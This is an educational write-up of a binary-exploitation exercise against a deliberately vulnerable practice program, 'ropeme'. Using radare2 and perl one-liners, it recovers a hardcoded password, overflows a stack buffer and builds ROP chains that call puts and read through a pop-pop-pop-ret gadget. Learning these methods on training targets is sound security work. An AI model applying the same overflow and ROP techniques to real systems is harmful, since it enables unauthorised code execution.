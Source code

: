 ========
Write-up
========

This writeup is made on linux using radare2 tools a lot. You may want to use
another platform or tools but I won't bother supporting them.

Exercise 1
==========

Using `strings ./ropeme` we find a line "admin42". It happens to be the
username.

Exercise 2
==========

You can trace calls to library functions with ltrace. This includes strcmp:

::

    $ ltrace ./ropeme admin42
    __libc_start_main(0x8048553, 2, 0xffe934a4, 0x80485b0 <unfinished ...>
    strcmp("admin42", "admin42")                                         = 0
    printf("Enter password:
    ")                                          = 16
    read(0, "test\n", 512)                                               = 5
    strcmp("test\n",
    "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227") = -1
    puts("Wrong password"Enter password: Wrong password
    )                                               = 15
    +++ exited (status 1) +++


The password is "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227". To
see it without the octal notation one can use printf:

::

    $ printf "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227"
    ĳùð−÷<>[×


That explains why is didn't show up using "strings"!

Exercise 3
==========

Reading ltrace's output we can see that fgets is used to get user input
reading up to 512 chars from stdin. What happens if we really write 512
chars?

::

    $ perl -e 'print "A"x512' | ./ropeme admin42
      Segmentation fault      (core dumped) | ./ropeme admin42

Oh! This smells the buffer overflow! To know where exactly we overwrite the
instruction pointer (eip) I'll use a De Bruijn sequence (I could guess but
this is faster). This is done using radare2 tools.

Here ragg2 will generate a 500-bytes long sequence with no repetitions as
hexadecimal values, rax2 will convert it into ascii values, and we put it in
the clipboard using xclip so that we are able to paste it later.

::

    $ ragg2 -P 500 | rax2 -s - | xclip

Radare2 is then used in debug mode with rarun2 to launch the program with an
argument. We could use gdb but... well... radare2 ^^

::

    $ r2 -d rarun2 program=./ropeme arg1=admin42
        ...
     [0x7f2168f15d80]> dc
     Debugging pid = 4050, tid = 1 now
     [0xf7778b50]> dc
     Enter password:
     <paste here from clipboard>
     Wrong password
     [+] SIGNAL 11 errno=0 addr=0x41416641 code=1 ret=0
     [+] signal 11 aka SIGSEGV received 0
     [0x41416641]> woO 0x41416641
     92

Here we have the address at which it tried to return: 0x41416641
Still in radare2 we convert it into an offset to know how much padding we
need:

::

    [0x41416641]> woO 0x41416641
    92

Let's try that!

::

    $ perl -e 'print "A"x92 . "B"x4' | xclip
    $ r2 -c "dc;dc" -d rarun2 program=ropeme arg1=admin42
        ...
    Enter password:
    <paste>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0
     -- Fill the bug. Fill it with love. With the creamy and hot sauce of love.
    [0x42424242]>

It works! We have taken eip! We just have to redirect it to section printing
the winning message. Let's disassemble the function checking the password:

::

    $ r2 ropeme
    [0x080483b0]> aa
    [0x080483b0]> is | grep password
    vaddr=0x08048496 paddr=0x00000496 ord=067 fwd=NONE sz=141 bind=GLOBAL type=FUNC name=check_password
    [0x080484e6]> pdf @ sym.check_password
    ╒ (fcn) sym.check_password 141
    │           ; var int local_22     @ ebp-0x58
    │           ; CALL XREF from 0x08048571 (sym.check_password)
    │           0x08048496    55             push ebp
    │           0x08048497    89e5           mov ebp, esp
    │           0x08048499    83ec58         sub esp, 0x58
    │           0x0804849c    83ec0c         sub esp, 0xc
    │           0x0804849f    6817860408     push str.Enter_password:
    │           0x080484a4    e887feffff     call sym.imp.puts
    │           0x080484a9    83c410         add esp, 0x10
    │           0x080484ac    83ec04         sub esp, 4
    │           0x080484af    6800020000     push 0x200
    │           0x080484b4    8d45a8         lea eax, [ebp-local_22]
    │           0x080484b7    50             push eax
    │           0x080484b8    6a00           push 0
    │           0x080484ba    e861feffff     call sym.imp.read
    │           0x080484bf    83c410         add esp, 0x10
    │           0x080484c2    85c0           test eax, eax
    │       ┌─< 0x080484c4    7517           jne 0x80484dd
    │       │   0x080484c6    83ec0c         sub esp, 0xc
    │       │   0x080484c9    6827860408     push str.Unable_to_get_the_password
    │       │   0x080484ce    e85dfeffff     call sym.imp.puts
    │       │   0x080484d3    83c410         add esp, 0x10
    │       │   0x080484d6    b801000000     mov eax, 1
    │      ┌──< 0x080484db    eb44           jmp 0x8048521
    │      │└─> 0x080484dd    83ec08         sub esp, 8
    │      │    0x080484e0    6842860408     push str.________________
    │      │    0x080484e5    8d45a8         lea eax, [ebp-local_22]
    │      │    0x080484e8    50             push eax
    │      │    0x080484e9    e822feffff     call sym.imp.strcmp
    │      │    0x080484ee    83c410         add esp, 0x10
    │      │    0x080484f1    85c0           test eax, eax
    │     ┌───< 0x080484f3    7517           jne 0x804850c
    │     ││    0x080484f5    83ec0c         sub esp, 0xc
    │     ││    0x080484f8    6853860408     push str.Yeah__You_win_
    │     ││    0x080484fd    e82efeffff     call sym.imp.puts
    │     ││    0x08048502    83c410         add esp, 0x10
    │     ││    0x08048505    b800000000     mov eax, 0
    │    ┌────< 0x0804850a    eb15           jmp 0x8048521
    │    │└───> 0x0804850c    83ec0c         sub esp, 0xc
    │    │ │    0x0804850f    6862860408     push str.Wrong_password
    │    │ │    0x08048514    e817feffff     call sym.imp.puts
    │    │ │    0x08048519    83c410         add esp, 0x10
    │    │ │    0x0804851c    b801000000     mov eax, 1
    │    └ └    ; JMP XREF from 0x0804850a (sym.check_password)
    │    └ └    ; JMP XREF from 0x080484db (sym.check_password)
    │    └─└──> 0x08048521    c9             leave
    ╘           0x08048522    c3             ret


Ok, so given the disassembly the key section is at 0x080484f8. Let's try that:

::

    $ perl -e 'print "A"x92 . "\xf8\x84\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    Yeah! You win!
    Segmentation fault (core dumped)

Finally!


Exercise 4
==========

When calling another function, the caller (say `main`) pushes the arguments
on the stack (not always, see further) and uses the call opcode that pushes
the current address on the stack for later return and then jumps to the
sub-routine location.

The sub-routine then pushes the ebp address to define its own stack frame,
takes the arguments from the stack to store them in local variables (often
pushing them back or just stocking them in registers), does its thing, then
pops the stack (the ebp address) and returns to the address at the top of the
stack (our previous return address put there by call). The instruction
pointer is incremented and the program continues.

I left away the stack allocation process besides push/pop because it isn't
very relevent here. Also there are other calling conventions besides the
stack. In x86_64, as the registers are bigger and more numerous they are the
primary way to pass arguments.

So the stack look like that before entering puts:

::

    ^ [string address]
    | [return address]

Note that as the stack is decreasing, pushing puts data at the bottom of this
diagram which is the top of the stack (facing downward). Also I represented
it without really using the opcode "call", that's why there is the return
address.

For strcmp it is similar, but note that the arguments are pushed in reverse
order:

::

    ^ [str2   address]
    | [str1   address]
    | [return address]

Exercise 5
==========

To display the password we will hijack a call to puts(). Such a call means
the stack will look somewhat like that before the call:

::

    ^ [password    address]
    | [puts return address]
    | [puts        address]
    | [padding to overflow]

The address of puts is direct:

::

    $ rabin2 -s ropeme | grep puts
    vaddr=0x08048330 paddr=0x00000330 ord=003 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.puts

So [puts address] is 0x08048330. In the same way we find the password address:

::

    $ rabin2 -z ropeme
    ...
    vaddr=0x08048642 paddr=0x00000642 ordinal=004 sz=17 len=9 section=.rodata type=ascii string=ĳùð−÷<>[×
    ...

By the way note how rabin2 isn't troubled at all by the weird password.

So far our stack is something like: "30830408XXXXXXXX42860408". Right now the
return address isn't really important, we will return to the end of the
check_password function, just before the return statement, at address
0x08048521.

::

    # Stack wanted:
    #
    # ^ [password    address] = 0x08048642
    # | [puts return address] = 0x08048521
    # | [puts        address] = 0x08048330
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x30\x83\x04\x08\x21\x85\x04\x08\x42\x86\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ĳùð−÷<>[×
    Segmentation fault (core dumped)

Yeah!

Exercise 6
==========

We want to print an arbitrary message. The printing part can be done with
puts() but what about the "getting the message" part? The program provides
read(), and we can make use of it.

The read system call takes as argument a file descriptor, an address to write
to and a length. We will read from stdin (file descriptor 0). Our message
will be a traditional "Hello World!" which is of length 13 with the null
terminator.

So we need to call read, store our string somewhere, and call puts to print
it. The stack will look somewhat like:

::

    ^ [string address]
    | [end    address]
    | [string len    ]
    | [string address]
    | [stdin  fd     ]
    | [puts   address]
    | [read   address]
    | [padding       ]

However, if we do that when returning from write the argument for puts will
be stdin file descriptor! We need to find a way to clean the stack removing
the three arguments of write.

This is done using a gadget, a small but useful sequence of instructions
present at the end of a function. Here we want something to pop three
arguments off the stack. Let's use radare2 to find something like that.

::

    $ r2 ropeme
     -- Do you want to print 333.5K chars? (y/N)
    [0x08048360]> /R pop
        ...

      0x080485d8             5b  pop ebx
      0x080485d9             5e  pop esi
      0x080485da             5f  pop edi
      0x080485db             5d  pop ebp
      0x080485dc             c3  ret

        ...

Better than what we needed! We will only use the last three pops. Returning
to 0x080485d9 will clear the stack of its three last elements then return
normally to the next function. I will refer to that address as pppr for
"pop pop pop ret". Our stack now looks like that:

::

    ^ [string address]
    | [end    address] = 0x0804851c
    | [puts   address] = 0x08048330
    | [string len    ] = 0x0000000e
    | [string address]
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x080485d9
    | [read   address] = 0x08048320
    | [padding       ] = 'A' x 92

The only thing we lack is an address to write to. We need to find a section
in memory which is more than 14 bytes large and has Read-Write permissions.
We can use radare2 for that:

::

    $ rabin2 -S ropeme | grep "perm=..rw"
    idx=17 vaddr=0x080497cc paddr=0x000007cc sz=4 vsz=4 perm=--rw- name=.init_array
    idx=18 vaddr=0x080497d0 paddr=0x000007d0 sz=4 vsz=4 perm=--rw- name=.fini_array
    idx=19 vaddr=0x080497d4 paddr=0x000007d4 sz=4 vsz=4 perm=--rw- name=.jcr
    idx=20 vaddr=0x080497d8 paddr=0x000007d8 sz=232 vsz=232 perm=--rw- name=.dynamic
    idx=21 vaddr=0x080498c0 paddr=0x000008c0 sz=4 vsz=4 perm=--rw- name=.got
    idx=22 vaddr=0x080498c4 paddr=0x000008c4 sz=32 vsz=32 perm=--rw- name=.got.plt
    idx=23 vaddr=0x080498e4 paddr=0x000008e4 sz=8 vsz=8 perm=--rw- name=.data
    idx=24 vaddr=0x080498ec paddr=0x000008ec sz=4 vsz=4 perm=--rw- name=.bss
    idx=30 vaddr=0x080497cc paddr=0x000007cc sz=288 vsz=4096 perm=m-rw- name=phdr1
    idx=31 vaddr=0x08048000 paddr=0x00000000 sz=52 vsz=52 perm=m-rw- name=ehdr

Most sections are too small... The .dynamic seems large enough to be
interesting though. We'll use it.

::

    ^ [string address] = 0x080497d8
    | [end    address] = 0x0804851c
    | [puts   address] = 0x08048330
    | [string len    ] = 0x0000000d
    | [string address] = 0x080497d8
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x080485d9
    | [read   address] = 0x08048320
    | [padding       ] = 'A' x 92

Let's try that!

::

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x20\x83\x04\x08"
    . "\xd9\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\xd8\x97\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x30\x83\x04\x08"
    . "\x1c\x85\x04\x08"
    . "\xd8\x97\x04\x08"
    EOF
    Enter password:
    [...]
    Wrong password
    Segmentation fault

Hmm... It didn't work... The reason is that the first call to read (to get
the password) reads 512 bytes from the standard input so it goes in the way
of the other call to read. The solution is to completely fill it and put our
input just after:

::
    | [padding       ] = 'B' x 388
    | [string address] = 0x080497d8
    | [end    address] = 0x0804851c
    | [puts   address] = 0x08048330
    | [string len    ] = 0x0000000d
    | [string address] = 0x080497d8
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x080485d9
    | [read   address] = 0x08048320
    | [padding       ] = 'A' x 92

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x20\x83\x04\x08"
    . "\xd9\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\xd8\x97\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x30\x83\x04\x08"
    . "\x1c\x85\x04\x08"
    . "\xd8\x97\x04\x08"
    . "B" x 388
    . "Hello World!\x00"
    EOF
    Enter password:
    [...]
    Wrong password
    Hello World!
    Segmentation fault

Working!

